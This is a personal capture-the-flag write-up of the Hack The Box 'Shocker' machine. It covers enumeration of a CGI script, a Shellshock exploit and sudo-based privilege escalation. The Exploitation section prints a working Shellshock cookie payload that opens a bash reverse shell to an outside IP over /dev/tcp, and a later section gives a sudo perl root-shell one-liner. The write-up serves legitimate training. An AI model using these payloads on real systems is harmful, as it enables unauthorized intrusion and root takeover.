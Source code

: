 Title: HTB Shocker box writeup
Tags: oscp, htb
Summary: Rooting the box using notorious vulnerability in bash
Date: 2020-09-11 15:00
Status: published

# Enumeration
nmap sS all range as always:
<pre>
    Nmap 7.80 scan initiated Fri Sep 11 11:25:24 2020 as: nmap -sS -p- -oA enum/nmap-ss-all shocker.htb
    Nmap scan report for shocker.htb (10.10.10.56)
    Host is up (0.051s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE
    80/tcp   open  http
    2222/tcp open  EtherNetIP-1
    Nmap done at Fri Sep 11 11:31:30 2020 -- 1 IP address (1 host up) scanned in 366.24 seconds
</pre>
Tried to navigate in browser while nmap was scanning, turned out that there's a 
web server that responds with the same page at IP and at vhost `shocker.htb`.
OpenSSH listening on usual port TCP 2222:

![ssh 22222](/cstatic/htb-shocker/ssh-unusual.png)

No robots.txt or something like this is available, time to spin up the gobuster:
<pre>
    /.htpasswd (Status: 403)
    /.htaccess (Status: 403)
    /cgi-bin/ (Status: 403)
    /server-status (Status: 403)
</pre>
CGI-BIN looks promising, unfortunately it's not possible to list the content of
this directory, but it's still worth trying to enumerate it further. Just add some common
extensions to the wordlist, something like sh, py, pl, php:
<pre>
    /.htpasswd (Status: 403)
    /.htpasswd.php (Status: 403)
    /.htaccess (Status: 403)
    /.htpasswd.sh (Status: 403)
    /.htpasswd.pl (Status: 403)
    /.htpasswd.py (Status: 403)
    /.htaccess.sh (Status: 403)
    /.htaccess.pl (Status: 403)
    /.htaccess.py (Status: 403)
    /.htaccess.php (Status: 403)
    /user.sh (Status: 200)
</pre>
Got it! Something interesting in there. Popped out nearly at the end of the run,
I was almost thinking that nothing could be found in there. This script reporting
an uptime, at least it's being said so:

![uptime script](/cstatic/htb-shocker/get-user.sh.png)

Take a mental note about hostname (Shocker) and shell script in CGI-BIN.

# Exploitation
Couple of years ago [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) or
as it's also called, Bashdoor, was discovered. Briefly, that's a code execution vulnerability
in the Bash, one of the attack vectors are CGI shell scripts - looks like our case. It was
a bit of struggling exploiting this one, since many attempts resulted in HTTP 500, but
I might be lucky since I've got a shell despite of having HTTP 500 response, such a 
cookie header was used: `Cookie: () { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.2/53 0>&1 &'`:

![unpriv shell](/cstatic/htb-shocker/unpriv-shell.png)

# Privilege escalation
`sudo -l` reported that it's possible to run perl w/o password:

![sudo -l](/cstatic/htb-shocker/sudo.png)

This is an instant root shell with `sudo perl -e 'exec("/bin/bash -i")'`:

![root shell](/cstatic/htb-shocker/root-shell.png)

Honestly it was the first thing I did having the unprivileged access, so PE was as simple as running `sudo -l`.
